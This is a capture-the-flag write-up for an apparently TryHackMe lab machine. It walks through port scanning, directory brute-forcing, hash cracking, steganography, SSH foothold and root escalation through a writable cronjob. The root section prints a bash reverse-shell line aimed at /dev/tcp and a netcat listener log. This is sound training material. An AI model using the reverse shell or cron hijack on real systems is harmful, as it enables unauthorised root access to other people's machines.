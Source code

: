 # recon
Like always, start with nmap. I use my own tool to automate nmap scan, check it out [pymap](https://github.com/gu2rks/pymap)
```console
$ python3 pymap.py -t $IP --all
```
There are 3 open ports:
- 80 ngnix server
- 6498 ssh
- 65524 apache server

## port 80 ngnix 
I use `gobuster` to brute forcing web directory 
```console
$ gobuster dir -u http://$IP/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
here is what I found:
- /h______ (Status: 301)
  - /w______
- /index.html (Status: 200)
- /robots.txt (Status: 200)
The first flag is in one of the directory. Note that the flag is encoded. decode it and summit ur flag.
## port 65524 apache
Same as port 80, use `gobuster` for directory brute forcing. In the meantime I was waiting for result from go buster. I looks around and find the 3rd flag. here is what I found with gobuster.
- /index.html (Status: 200)
- /robots.txt (Status: 200)
this is odd. but let go and check what we have. I found a encoded string hidden in `/index.html`. decode it and it will give you a hidden directory call `/n0th1__________`.

moreover, in robots.txt you will find a weird string:
```
User-Agent:a1867_______________
```
I use hash analyzer to check which hash type is that. then using `hashcat` to crack it: let move back to `/n0th1__________` directory.

here you will find
```html
<img src="binarycodepixabay.jpg" width="140px" height="140px"/>
<p>940________________________</p>
```
a picture which I guess that this picture might hiding something from us (steganography). I downloaded it and used `binwalk` to analyze the picture... didnt find anything. I then use `hexeditor` to analyze the picture. I was rigth about it, the picture include a hidden file. so I use `stegcracker` to crack it.

at this moment:
- hashcat is running
- stegcracker is running
- my laptop is screaming and burning...


back to `/n0th1__________`, this a some werid strings there too. THM give us a HINT that the string is a GOST Hash. use ur favorite search engines and find online hash cracking website. Boom! I got a password!!. 

**hint**: <details>I used this [site](https://md5hashing.net/hash/gost/)) to crack it</details>


I then stop my stegcracker. and run `steghide` to extrack a hidden file:
```console
bibo318@parrot:~/THM$ steghide extract -sf index.jpeg 
Enter passphrase: 
wrote extracted data to "secrettext.txt".
```
At this point, we still missing flag 2. Base on what we found, the string that we found in *robots.txt* (User-Agent) should give us the flag. Since *rockyou.txt* contains only password, not thing like flag{soemthing}. Which is why my `hashcat` could not crack it. 


The solution was to find online hash cracking website. to gain 2nd flag. 

**hint:** <details> same site as GOST hash cracker.</details>

Back to the file we extracted from steghide
```console
bibo318@parrot:~/THM$ cat secrettext.txt 
username:b____
password:
01101001 <and more>
```
note that password is in binary, decode it! now let ssh and get foothold on the victim machine.
# foot hold
let get user flag!!!
```console
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
<flaghere>
```
The hint said *User Flag But It Seems Wrong Like It`s Rotated Or Something*.... **Rotated**... Find out what it mean:

**hint:** <details>ROT cipher</details>

# root
I tried to `sudo -l` but we dont have premission to do so. then I remember that it said in the room detail that *escalate your privileges through a vulnerable cronjob.* so lets do it!
```console
boring@kral4-PC:~$ cat /etc/crontab # check crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
if you do not know what cronjob is, pls look it up. In short each 1 min a hidden bash script call `.mysecretcronjob.sh` is executed by root. the script is located at `/var/www/`. lucky the script is own by our current user which mean we have a permission to read and write the script.

The plan is modify the script (`.mysecretcronjob.sh`) to a reverse shell to gain root access. add this to the script
```sh
bash -i >& /dev/tcp/<kali ip>/6969 0>&1
```
now on your kali. open netcat and listen/wait for our reverse shell to be execute by cronjob as root:
```console
bibo318@parrot:~$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.11.14.220] from (UNKNOWN) [10.10.111.241] 56080
bash: cannot set terminal process group (1741): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www#
```
now go grab root flag

**Hint**:
<details>hidden hidden hidden...</details>
